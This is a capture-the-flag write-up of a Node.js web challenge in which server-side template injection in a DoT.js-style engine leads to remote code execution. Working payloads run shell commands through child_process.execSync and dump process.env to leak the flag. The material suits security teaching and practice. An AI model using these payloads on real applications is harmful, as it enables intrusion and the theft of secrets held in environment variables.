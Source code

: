 ## CTF Write-up: Templateception Revenge

**Challenge Name:** templateception-revenge
**Description:** We are back again with the revenge! when templates process templates.. things can get weird :( Flag is in FLAG.
**Flag Format:** `shaktictf{}`

---

### 1. Initial Reconnaissance & Application Overview

The challenge provided a file structure and a web interface.

**File Structure Analysis:**

The provided file structure hinted at a Node.js application running within a Docker container:

```
src/templateception rev web
├── app
│   ├── public
│   │   └── style.css
│   ├── templates
│   │   └── views
│   │       ├── index.ejs
│   │       ├── rendered.ejs
│   │       └── upload.ejs
│   ├── index.js
│   └── package.json
├── .env
├── docker-compose.yml
├── Dockerfile
└── FLAG.txt
```

Key observations from this structure:
*   Presence of `index.js` and `package.json` strongly indicated a Node.js application.
*   `.ejs` files suggested the EJS templating engine.
*   `Dockerfile` and `docker-compose.yml` confirmed a containerized environment.
*   `FLAG.txt` was shown as a sibling to the `app` directory within the `src/templateception rev web` folder.

**Web Application Interface:**

Upon accessing the provided URL (`http://xib28404.eng.run/`), a simple web form was presented with three input fields:

*   **Filename:** A text field to seemingly name the uploaded template.
*   **Template:** A multi-line text area, pre-filled with `Hello {{=it.name}}!`. This immediately suggested a templating engine other than standard EJS (which uses `<%= %>` or `<%- %>`). The syntax `{{=...}}` is characteristic of engines like **DoT.js (DoT)**.
*   **Config (JSON):** A multi-line text area to provide JSON data, which would likely be passed as context to the template.
*   An "Upload" button to submit the form.

---

### 2. Identifying and Confirming Server-Side Template Injection (SSTI)

The challenge name "templateception" and the input fields pointed directly to a Server-Side Template Injection (SSTI) vulnerability.

**Step 1: Confirm Template Engine and Data Processing**

We started by testing the default template to understand how the `Config` field interacts with the `Template` field.

*   **Action:**
    *   **Filename:** `test.tpl`
    *   **Template:** `Hello {{=it.name}}!`
    *   **Config (JSON):** `{"name": "CTF Player"}`
*   **Observed Output:** `Hello CTF Player!`
*   **Confirmation:** This confirmed that the template engine was active, processed `{{=it.name}}`, and successfully received data from the `Config` JSON under the `it` object.

**Step 2: Confirm JavaScript Execution within the Template**

Next, we attempted to execute simple JavaScript expressions to confirm arbitrary code execution within the template context.

*   **Action (Test 1):**
    *   **Filename:** `math_test.tpl`
    *   **Template:** `{{= 7*7 }}`
    *   **Config (JSON):** `{}`
*   **Observed Output:** `49`

*   **Action (Test 2):**
    *   **Filename:** `js_string_test.tpl`
    *   **Template:** `{{= 'Hello'.toUpperCase() }}`
    *   **Config (JSON):** `{}`
*   **Observed Output:** `HELLO`

*   **Confirmation:** These tests conclusively proved that **arbitrary JavaScript code could be executed** within the server-side template. This is a critical SSTI leading to potential Remote Code Execution (RCE).

---

### 3. Achieving Remote Code Execution (RCE)

With confirmed JavaScript execution, the next step was to leverage Node.js's `child_process` module to execute system commands. The standard payload structure for this in a Node.js environment is `global.process.mainModule.require('child_process').execSync('COMMAND').toString()`.

**Step 1: Locating the Flag - Initial `ls -la` Attempts**

Based on the file structure, we first tried listing directory contents to find `FLAG.txt`.

*   **Action (List Current Directory):**
    *   **Filename:** `ls_test.tpl`
    *   **Template:** `{{= global.process.mainModule.require('child_process').execSync('ls -la').toString() }}`
    *   **Config (JSON):** `{}`
*   **Observed Output:** The output showed `index.js`, `package.json`, `public`, `templates`, `views`, etc., confirming the current working directory was `/app`. However, `FLAG.txt` was not present here.

*   **Action (List Root Directory):**
    *   **Filename:** `ls_root_test.tpl`
    *   **Template:** `{{= global.process.mainModule.require('child_process').execSync('ls -la /').toString() }}`
    *   **Config (JSON):** `{}`
*   **Observed Output:** This listed directories like `app`, `bin`, `boot`, `dev`, `etc`, `home`, `lib`, `root`, `tmp`, `usr`, `var`. Notably, `FLAG.txt` was still not at the root.

**Step 2: Further Path Exploration and Failed Attempts**

Given that `FLAG.txt` was not in the immediate or root directories, we tried other common locations for flags in CTF challenges:

*   `/app/FLAG.txt` (based on the initial file structure, but incorrect as confirmed by `ls -la`)
*   `/root/FLAG.txt`
*   `/tmp/FLAG.txt`
*   `../FLAG.txt` (relative to `/app`)
*   `ls -la /usr/src/`, `ls -la /opt/`, `ls -la /srv/` (to find other deployment roots)
*   `find / -name FLAG.txt 2>/dev/null` (a recursive search, but yielded no output, suggesting timeout or strict execution limits).

All these attempts resulted in "No such file or directory" errors or empty output, indicating the flag was not in these conventional places.

### 4. Flag Discovery: Environment Variables

When file system traversal proves difficult, a common fallback in containerized environments is to check environment variables. Sensitive information like flags is often passed to containers as environment variables.

*   **Action:**
    *   **Filename:** `env_flag.tpl`
    *   **Template:** `{{= JSON.stringify(global.process.env) }}`
    *   **Config (JSON):** `{}`
*   **Observed Output:** The rendered output contained a large JSON string representing all environment variables. Within this output, the flag was clearly visible:

    `{"NODE_VERSION":"18.20.8","HOSTNAME":"89b5d6785059","YARN_VERSION":"1.22.22","HOME":"/root","DOMAIN":"xib28404.eng.run","PATH":"/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","PWD":"/app","FLAG":"shaktictf{Th15_1s_r3v3ng3}"}`

### 5. The Flag

The flag was found in the environment variables:

`shaktictf{Th15_1s_r3v3ng3}`

---

### Conclusion

This challenge was a clear demonstration of Server-Side Template Injection (SSTI) in a Node.js application using a DoT.js-like template engine. While initially misleading with the `FLAG.txt` location, the core vulnerability allowed full JavaScript execution. When traditional file system traversal proved fruitless, checking environment variables was the successful avenue for flag retrieval. This highlights the importance of exploring all potential data sources once RCE is achieved in a CTF.